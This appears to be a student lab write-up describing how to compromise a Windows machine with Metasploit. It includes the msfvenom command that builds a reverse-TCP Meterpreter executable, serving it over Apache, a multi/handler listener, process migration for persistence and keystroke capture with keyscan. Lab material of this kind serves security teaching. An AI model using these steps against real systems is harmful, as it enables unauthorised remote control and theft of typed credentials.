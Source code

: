 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/user-attachments/assets/74db2e12-b5c1-4a5e-922f-2382ac5658e7)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/user-attachments/assets/5de4f8a7-e902-4534-b25f-60ac6cf2487a)
copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/user-attachments/assets/a8ce006e-a938-4e37-9ec4-19180fafc6e0)
Start apache server sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/user-attachments/assets/23cf2b47-596c-4724-8ca3-852b2b143362)
Check the status of apache2

## OUTPUT:
![image](https://github.com/user-attachments/assets/a19f616a-4759-4bce-ba00-b04aeac056a1)
Invoke msfconsole:

## OUTPUT:
![image](https://github.com/user-attachments/assets/9d4e49b9-0494-463a-81f2-6267e152f938)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/user-attachments/assets/7bf01fd5-3fb3-40f8-ac55-340227c29832)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/user-attachments/assets/092b4542-c4af-4a0f-b648-8e1ddd1468e9)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/655726a4-b159-4cad-9547-a98dd5ee6fde)
Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/user-attachments/assets/b4fe75ff-0114-4244-a9f2-6613643e0aa2)
On kali give the command exploit
![image](https://github.com/user-attachments/assets/276c091d-1a22-4fdf-b9c8-ab88846d717b)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/57a353ca-0837-4ce4-8c1c-02e045039442)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/user-attachments/assets/82bf7230-4c83-4017-b369-6d7b99ead749)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/fa1fd744-98da-4410-8d6f-4fee60c6438d)
![image](https://github.com/user-attachments/assets/cf255f6f-5a4e-421b-9907-c1c0d63d81b9)
keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/282c022c-bfa0-4507-8716-a847d6301ad9)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
